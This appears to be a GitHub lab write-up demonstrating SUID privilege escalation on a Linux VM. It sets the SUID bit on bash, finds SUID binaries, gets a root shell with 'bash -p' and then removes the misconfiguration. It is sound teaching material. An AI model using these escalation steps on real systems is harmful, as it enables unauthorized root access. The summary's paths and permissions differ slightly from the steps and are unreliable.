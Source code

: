 # POC-task-4
SUID & PRIVILEGE ESCALATION

✅ Setup:

step 1: Creating a Vulnerable SUID Environment

  step 1.1: Set SUID Bit on Bash (Dangerous!)

  # Grant SUID to Bash (Insecure!)
    ┌──(monish㉿vbox)-[~]
    └─$ sudo chmod u+s /bin/bash

  # Verify SUID is set
    ┌──(monish㉿vbox)-[~]
    └─$ ls -l /bin/bash  
  -rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
  
  step 1.2: Create a Root-Owned SUID Script

  # Create a root-owned script
    ┌──(monish㉿vbox)-[~]
    └─$ sudo nano /root/root_script.sh

  # Set SUID permission on the script
    ┌──(monish㉿vbox)-[~]
    └─$ sudo chmod 4755 /root/root_script.sh

  # Verify permissions
    ┌──(monish㉿vbox)-[~]
    └─$ sudo ls -l /root/root_script.sh     
  -rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh

✅ Exploitation:

step 2: Gaining Root Access

   ## Find SUID binaries
     ┌──(monish㉿vbox)-[~]
     └─$  find / -perm -4000 2>/dev/null
   /usr/lib/chromium/chrome-sandbox
   /usr/lib/openssh/ssh-keysign 
   /usr/lib/polkit-1/polkit-agent-helper-1
   /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   /usr/lib/xorg/Xorg.wrap .......

  ## Exploit SUID on Bash to Get Root Privileges
  # Run Bash with SUID privilege
     ┌──(monish㉿vbox)-[~]
     └─$ /bin/bash -p

  # Verify root access
     ┌──(monish㉿vbox)-[~]
     └─$ /bin/bash -p
  bash-5.2# whoami
  root

✅ Mitigation:

step 3: Fixing the Security Issues

   # Remove SUID from Bash
     ┌──(monish㉿vbox)-[~]
     └─$ sudo chmod -s /bin/bash

   # Verify SUID is removed
     ┌──(monish㉿vbox)-[~]
     └─$ ls -l /bin/bash
  -rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash

   # Change ownership and restrict access
     ┌──(monish㉿vbox)-[~]
     └─$ sudo chown root:root /root/root_script.sh
     ┌──(monish㉿vbox)-[~]
     └─$sudo chmod 700 /root/root_script.sh

   # Verify permissions
     ┌──(monish㉿vbox)-[~]
     └─$ ls -l /root/root_script.sh
  -rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh

📌 SUMMARY:

   This Proof of Concept (PoC) demonstrates how misconfigured SUID permissions can lead to privilege escalation and how to mitigate these risks effectively.

🔹 Setup:

Set the SUID bit on /bin/bash (chmod u+s /bin/bash).

Create a root-executed script with SUID permissions (chmod 4755 /root_script.sh).

🔹 Exploitation:

Identify SUID misconfigurations (find / -perm -4000 2>/dev/null).

Escalate privileges to root using (/bin/bash -p).

Execute the root-privileged script as a normal user (./root_script.sh).

🔹 Mitigation:

Remove unnecessary SUID permissions (chmod -s /bin/bash).

Restrict execution of sensitive scripts (chown root:trusted_user /root_script.sh, chmod 750 /root_script.sh).

Verify security improvements (ls -l /bin/bash /root_script.sh).

✅ Objective: Understand privilege escalation risks due to SUID misconfigurations and implement security best practices to prevent unauthorized access.





  
